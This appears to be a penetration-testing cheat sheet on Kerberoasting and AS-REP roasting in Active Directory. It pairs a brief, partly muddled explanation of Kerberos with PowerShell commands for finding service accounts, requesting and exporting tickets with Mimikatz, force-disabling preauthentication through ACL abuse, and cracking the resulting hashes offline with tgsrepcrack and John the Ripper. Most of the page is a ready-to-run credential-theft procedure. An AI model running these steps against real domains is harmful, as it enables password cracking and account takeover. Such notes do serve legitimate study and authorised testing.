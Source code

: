 Kerberoasting happens by saving the TGS after step 4 in the Kerberos process. Since the TGS is encrypted with the service account's NTLM hash it makes it possible to attempt to brute force the password. 

Steps for Kerberos:


1. The user's password is converted to an NTLM hash which is used to encrypt a timestamp. This is sent to the KDC as an AS-REQ.

2. The TGT is encrypted signed and delivered back to the user as an AS-REP. Only the krbtgt user can open and read TGT data.

3. TGT is encrypted with krbtgt hash when requesting a TGS. TGS-REQ

4. TGS encrypted using target service's NTLM hash, TGS-REP

5. The user connects to the server hosting the service on the specific port and presents the TGS, AP-REQ

6. Optional mutual authentication



## Basic Kerberoast Process


Find service accounts

```powershell
#PowerView
Get-NetUser –SPN

#ActiveDirectorymodule
Get-ADUser -Filter{ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

From the output select a service name and input into the following command

```powershell
#Request a TGS
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/mgmt.abc.example.local"


#Request-SPNTicketfrom PowerView can be used as well for cracking with John or Hashcat. 

#Check if the TGS was granted:
klist

```

Export the ticket using Invoke-Mimikatz

```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```


Crack the service account password

```powershell
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-student1@MSSQLSvc~mgmt.abc.example.local-abc.example.LOCAL.kirbi 
```



## AS-REP


If a user accounts settings have "Do not require Kerberos preauthentication" enabled, it is possible to grab user's crackable AS-REP and brute force it offline

Enumerate accounts with Pre-Auth disabled

```powershell
#Using PowerView(dev):
Get-DomainUser -PreauthNotRequired -Verbose

#Using ActiveDirectorymodule:
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```

With suffecient rights (GenericWrite or GenericAll), Kerberos preauth can be forced disabled as well
Force disable Kerberos Pre-Auth

```powershell
#enumerate the permissions for RDP Users on ACLs using PowerView(dev):
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} –Verbose

Get-DomainUser -PreauthNotRequired -Verbose
```

Request encrypted AS-REP for offline brute force

```powershell
#Let's use ASREPRoast
Get-ASREPHash -UserName VPN1user -Verbose

#To enumerate all users with Kerberos preauthdisabled and request a hash
Invoke-ASREPRoast -Verbose
```

Crack the hashes

```powershell
#Using bleeding-jumbo branch of John The Ripper, we can brute-force the hashes offline. 
./john vpn1user.txt --wordlist=wordlist.txt
```
